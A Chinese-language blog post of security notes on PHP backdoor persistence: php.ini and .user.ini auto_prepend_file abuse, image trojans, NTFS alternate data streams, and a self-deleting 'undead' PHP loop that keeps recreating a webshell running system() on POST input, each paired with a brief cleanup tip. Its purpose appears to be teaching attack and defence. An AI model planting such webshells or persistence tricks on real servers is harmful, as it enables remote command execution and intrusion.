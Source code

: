 ```yaml
---
layout: post
title : php常见漏洞攻防
#二级标题
subtitle : php.ini ADS jpg木马
author : Bert
header-img: img/post-bg-miui6.jpg
catalog : true
date : 2021-12-21 20:23
tags :
 - web安全
 - php安全
---
```


### php后门

> php常见后门

#### php.ini

> 利用php.ini 的auto_prepend_file 和 include_path
>
> 解决办法:检查ini文件,删除后门文件重启

- 首先上官网介绍:![php-security](C:\Rrui\notes\bertGo.github.io\img\code-img\php-security.png)在php加载之前,首先加载auto_prepend_file的文件,auto_append_file则是在php运行结束后,加载指定的文件

- 示例:![image-20211221204130490](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211221204130490.png)![image-20211221204500181](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211221204500181.png) 

  test.php文件内容:![image-20211221213638683](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211221213638683.png)

  我的index.php文件内容:![image-20211221205225412](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211221205225412.png)

  运行结果:![image-20211221205719990](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211221205719990.png)
#### 图片木马

> 解决办法:waf扫描,检查后门

- 放个图片木马:![image-20211221214513218](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211221214513218.png)

  改名1.jpg:![image-20211221214532259](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211221214532259.png)

  然后用后门文件包含:![image-20211221214635442](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211221214635442.png)

  运行: ![image-20211221214709171](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211221214709171.png)

#### 利用ads隐藏文件 

> NTFS交换数据流（Alternate　Data　Streams，简称 ADS）是 NTFS 磁盘格式的一个特性，在 NTFS文件系统下，每个文件都可以存在多个数据流。通俗的理解，就是其它文件可以“寄宿”在某个文件身上，而在资源管理器中却只能看到宿主文件，找不到寄宿文件。利用ADS 数据流，我们可以做很多有趣的事情。(我抄的)

- 命令行创建一个寄宿文件,比如index.php是我已有的文件:

  ```shell
  echo ^ > index.php:shell.jpg
  ```

- 这样就生成了一个正常情况看不见的文件:![image-20211222221828447](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211222221828447.png)

- 使用dir /r 查看:![image-20211222222009768](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211222222009768.png)

- 此时这个index.php:shell.jpg是寄宿于index.php的,我们现在给index.php改个名字:![image-20211222222300808](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211222222300808.png)

  所以,**想删除寄宿文件,删除原文件即可**:

  ![image-20211222222442937](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211222222442937.png)

#### php环境变量留马

- 同上面差不多,就不多说了,检查时记得检查include_path 这个位置有没有马 ![image-20211222222941432](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211222222941432.png)

#### 不死马

- 运行后,会删除自身,生成一个新的webshell.php,被删除后还会继续生成:

  ```php
  <?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  while(1){
      file_put_contents('webshell.php','<?php system($_POST["bert8848"])?>');
      sleep(5);
  }
  ```

- ![image-20211222224435017](C:\Rrui\notes\bertGo.github.io\img\code-img\image-20211222224435017.png)

- 解决办法:覆盖重写,或者重启web服务后,删掉即可

  ```php
  <?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  while(1){
      file_put_contents('webshell.php', 'clear it');
      sleep(5);
  }
  ```

#### php利用.user.ini

> 原文地址:http://drops.wooyun.org/tips/3424

- 这得从php.ini说起了。php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：`PHP_INI_SYSTEM`、`PHP_INI_PERDIR`、`PHP_INI_ALL`、`PHP_INI_USER`。 在此可以查看：http://php.net/manual/zh/ini.list.php 这几种模式有什么区别？看看官方的解释：

  ![enter image description here](C:\Rrui\notes\bertGo.github.io\img\code-img\2014103002272568560.png)

  其中就提到了，模式为PHP_INI_USER的配置项，可以在ini_set()函数中设置、注册表中设置，再就是.user.ini中设置。 这里就提到了.user.ini，那么这是个什么配置文件？那么官方文档在[这里](http://php.net/manual/zh/configuration.file.per-user.php)又解释了：

  除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（`$_SERVER['DOCUMENT_ROOT']` 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

  在 `.user.ini` 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

  这里就很清楚了，`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

  实际上，除了`PHP_INI_SYSTEM`以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。

  而且，和`php.ini`不同的是，`.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。

  然后我们看到php.ini中的配置项，可惜我沮丧地发现，只要稍微敏感的配置项，都是`PHP_INI_SYSTEM`模式的（甚至是php.ini only的），包括`disable_functions`、`extension_dir`、`enable_dl`等。 不过，我们可以很容易地借助`.user.ini`文件来构造一个“后门”。

  Php配置项中有两个比较有意思的项（下图第一、四个）：

  ![enter image description here](C:\Rrui\notes\bertGo.github.io\img\code-img\2014103002272554789.png)

  `auto_append_file`、`auto_prepend_file`，点开看看什么意思：

  ![enter image description here](C:\Rrui\notes\bertGo.github.io\img\code-img\2014103002272569525.png)

  指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：

  ```nginx
  auto_prepend_file=01.gif
  ```

- 再后面,就和文章开头的php.ini一样了,戳: [php.ini](#php.ini)

